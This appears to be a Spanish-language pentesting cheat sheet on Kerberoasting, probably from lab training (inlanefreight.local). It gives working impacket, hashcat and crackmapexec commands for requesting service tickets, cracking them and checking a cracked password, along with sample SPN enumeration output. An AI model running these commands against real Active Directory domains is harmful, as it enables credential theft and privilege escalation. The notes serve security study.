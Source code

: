 # Kerberoasting

- Este ataque sirve para obtener credenciales de cuentas de servicios que están configurados con la autenticación Kerberos.
- En AD comunmente las cuentas de servicios tienen privilegios muy elevados.

## Como funciona

1. Solicitud TGS
2. Obtener Ticket.
3. Extraerlo con mimikatz o rubeus
4. Fuerza bruta o pass the ticket

- `sudo impacket-GetUserSPNs DOMAIN.LOCAL/USER:password -dc-ip IP -request`
- Guardar hash
- `hashcat -m 13100 hash.txt wordlist.txt`

## Listar cuentas
- `impacket-GetUserSPNs -dc-ip IP DOMAIN.LOCAL/USER`
- Ejemplo:
```powershell
Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                           Name               MemberOf                                                                                  PasswordLastSet             LastLogon  Delegation 
---------------------------------------------  -----------------  ----------------------------------------------------------------------------------------  --------------------------  ---------  ----------
backupjob/veam001.inlanefreight.local          BACKUPAGENT        CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:15:40.842452  <never>               
sts/inlanefreight.local                        SOLARWINDSMONITOR  CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:14:48.701834  <never>               
MSSQLSvc/SPSJDB.inlanefreight.local:1433       sqlprod            CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:09:46.326865  <never>               
MSSQLSvc/SQL-CL01-01inlanefreight.local:49351  sqlqa              CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:10:06.545598  <never>               
MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433  sqldev             CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:13:31.639334  <never>               
adfsconnect/azure01.inlanefreight.local        adfs               CN=ExchangeLegacyInterop,OU=Microsoft Exchange Security Groups,DC=INLANEFREIGHT,DC=LOCAL  2022-02-15 17:15:27.108079  <never> 
```

#### Chequear cuenta post crackeo
- `sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!`